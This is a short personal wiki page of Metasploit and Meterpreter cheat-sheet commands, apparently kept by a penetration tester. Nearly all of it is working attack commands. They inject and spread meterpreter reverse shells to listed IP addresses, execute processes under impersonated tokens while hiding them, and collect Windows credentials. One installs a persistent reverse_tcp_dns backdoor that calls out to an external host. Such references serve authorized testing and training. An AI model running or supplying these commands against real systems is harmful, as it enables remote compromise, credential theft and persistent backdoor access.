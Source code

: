 <!-- TITLE: Metasploit Main -->
<!-- SUBTITLE: A quick summary of Metasploit Main -->


[Back to Tools](/tools)

[Metasploit Site](https://www.metasploit.com/)

[MSFVenom](/msfvenom)



# Meterpreter

Sending Shells to other people

run duplicate -D -r -e executable_to_inject -p 4444 -r listenhost

Next command will send meterpreters to each ip in -mr list

run multi_meter_inject -pt windows/meterpreter/reverse_https -mr 10.128.129.200,10.128.129.201 -p 443

Auto Run Script

set AutoRunScript multi_console_command -rc commands.rc

How to do exec

execute -i -f bash
-i interact
-f foreground I think
will execute the process. exit returns to meterpreter.

Execing with other Token:
incognito
execute -t will use the current token
-h will hide from screen
-c will chanelize it
-i will let you interact with it

Post Exploit
run prefetchtool -l

run post/windows/gather/credential_collector


# Known Attack Patterns
[Pass the Hash](/passthehash)
# Writing Exploits
# Post Module Tricks
run persistence -P windows/meterpreter/reverse_tcp_dns -S -i 9000 -p 9998 -r olympus.dyns.cx
-i - I think is interval

# MSFDB Commands
# MSF RPC Connections